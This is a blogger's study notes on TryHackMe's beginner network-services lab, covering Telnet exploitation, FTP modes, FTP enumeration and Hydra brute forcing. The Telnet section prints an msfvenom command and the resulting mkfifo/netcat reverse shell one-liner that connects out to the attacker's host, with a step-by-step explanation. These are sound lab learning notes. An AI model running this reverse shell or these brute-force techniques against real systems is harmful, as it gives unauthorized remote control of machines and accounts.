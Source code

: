 # TryHackMe: Complete Beginner

## Network Services

### Exploiting Telnet

```bash
# Listen for ICMP ping packets on an interface:
#
sudo tcpdump ip proto \\icmp -i $IFACE

# Use Metasploit to generate the code for a remote shell:
# 
msfvenom -p cmd/unix/reverse_netcat lhost=$LOCAL_IP lport=$LOCAL_PORT R

# Spin up a listener using netcat:
#
nc -lvp $LOCAL_PORT
```

In this exercise, Metasploit generates code that looks like this:

```bash
mkfifo /tmp/qdsrgu; nc $LOCAL_IP $LOCAL_PORT 0</tmp/qdsrgu | /bin/sh >/tmp/qdsrgu 2>&1; rm /tmp/qdsrgu
```

($LOCAL_IP and $LOCAL_PORT aren’t literal — they’re *actually* the local IP address of my machine on TryHackMe’s VPN and my chosen port. Neither of which should be particularly sensitive, but I’m still not going to post it on the internet!)

What’s going on here?

* `mkfifo /tmp/qdsrgu` creates a named pipe at /tmp/qdsrgu.
* We then spin up a netcat instance directed at our local machine (`nc $LOCAL_IP $LOCAL_PORT`), direct the contents of the pipe into netcat’s STDIN (`0< /tmp/qdsrgu`), pipe the *output* of netcat to a shell we know probably exists (`| /bin/sh`), and finally redirect *both* STDOUT and STDERR back into the named pipe (`> /tmp/qdsrgu 2>&1`).
* On the local machine, `nc -lvp $LOCAL_PORT` listens for the incoming netcat connection from the remote. Anything we type on STDIN here gets sent to the remote and piped to /bin/sh *there*. The output of /bin/sh is then sent to the named pipe, which dumps into (the remote) netcat, which then sends the data to the local machine where it ends up on STDOUT.

### Understanding FTP

The [active vs. passive FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol#Communication_and_data_transfer) distinction is about how the *server* handles establishing the data channel (the command channel is always set up by the client connecting to the server).

* Active FTP: The client opens a port which the server *actively* connects to when establishing the data channel.
* Passive FTP: The server opens a port which the client connects to when establishing the data channel.

### Enumerating FTP

FTP denotes user accounts using a leading tilde; thus `cwd ~admin` will attempt to change the current working directory to the home directory of the `admin` user. [Some (older) FTP daemons have a vulnerability](https://www.exploit-db.com/exploits/20745) where they allow the use of the `cwd` directory before login, and will return an error when attempting to change to a non-existent user directory.

Use nmap’s -sV option to attempt to probe for the service name and version information behind an open port.

Anonymous FTP logins, if allowed, use the username `anonymous` and a blank password.

### Exploiting FTP

Hydra can directly try to brute force passwords on remote machines.

Kali’s rockyou.txt.gz is apparently [a list of 14 million passwords](https://github.com/zacheller/rockyou) dumped during [the hack of some service called RockYou](https://techcrunch.com/2009/12/14/rockyou-hack-security-myspace-facebook-passwords/) that I hadn’t previously heard of. Apparently RockYou was a social network that allowed direct connection to other social networks (including Facebook and MySpace)… And stored all of the relevant passwords (including their own) in the clear!

- - - -

👤 Nathan Acks  
📅 October 2, 2021
